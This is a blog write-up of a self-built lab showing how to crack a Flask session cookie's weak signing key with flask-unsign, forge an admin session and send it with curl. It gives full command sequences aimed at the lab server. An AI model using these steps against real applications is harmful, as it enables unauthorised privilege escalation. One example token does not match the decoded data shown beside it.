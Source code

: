 
Cracked Flask Lab

##
#
https://digi.ninja/blog/cracked_flask.php
#
https://flask.palletsprojects.com/en/2.0.x/
#
https://book.jorianwoltjer.com/languages/web-frameworks/flask
#
https://jacobpadilla.com/articles/python-flask-login-system
#
##

    Home
    Blog
    Cracked Flask Lab

Thurs 9th Dec 21

As with all my labs, this one started on a test. The app was written in Python Flask and used its default session manager.

The session manager stores all the session information on the client side, so as well as being able to see what is being stored about you, there is also the potential to modify it, the only small problem, it is protected by a HMAC.

The format of the token is similar to a JWT, but in this order:

base64(JSON session data) . encoded timestamp . HMAC

Here is an example:

eyJoZWxsbyI6IndvcmxkMiIsInVzZXJuYW1lIjoiYWRtaW4ifQ . YbDIxQ . lvkY_D2TEqYp17FdMdgDLOaQNaA

The session data here decodes to:

{
  'hello': 'world',
  'username': 'robin'
}

Generating the HMAC requires a secret key, if you can recover, or crack, the key, then you are able to make any changes you want to the session information. In the app I was testing, this would allow me to elevate my privileges from normal user to administrator.

Rather than hammer the client's site to learn about how all this worked, and more importantly, how to crack the key, I built my Cracked Flask lab.

The lab is very simple, when you first view the page, it sets a session cookie which contains the same information as shown above, to elevate your privileges to administrator, all you have to do is to change the username to "admin".

There are quite a few tools out there that will help with the challenge, but the one I settled on was Flask Unsign. It is really easy to use and managed a brute force crack of the key very quickly.

I've included a walk through of how I used Flask Unsign to crack the lab key and then update it, but have a go at working it out yourself first.

Access the Cracked Flask Lab or view the GitHub Repo.
Walk Through

Pull down the cookie and have a look what is in it:

flask-unsign --decode --server https://crackedflask.digi.ninja/user

Try to crack it:

flask-unsign --unsign --server https://crackedflask.digi.ninja/user

Cracked it and got the secret key "monkey" so now create a new cookie with the username admin rather than robin:

flask-unsign --sign --secret monkey --cookie "{'hello': 'world2', 'username': 'admin'}"

Finally, make a request using the new cookie:

curl --cookie "session=eyJoZWxsbyI6IndvcmxkMiIsInVzZXJuYW1lIjoiYWRtaW4ifQ.YbCXpA.45th8HQUFJO6GHycU_fMkPQ31qc" https://crackedflask.digi.ninja/user

If you want to combine the last two commands:

COOKIE=`flask-unsign --sign --secret monkey --cookie "{'hello': 'world2', 'username': 'admin'}"`
curl --cookie "session=$COOKIE" https://crackedflask.digi.ninja/user

Or you could just put the signing command into the curl command with backticks. Just watch the quotes if you try that:

curl --cookie "session=`flask-unsign --sign --secret monkey --cookie \"{'hello': 'world2', 'username': 'admin'}\"`" https://crackedflask.digi.ninja/user

If you just want to see it in action, here is a recording of these steps. 
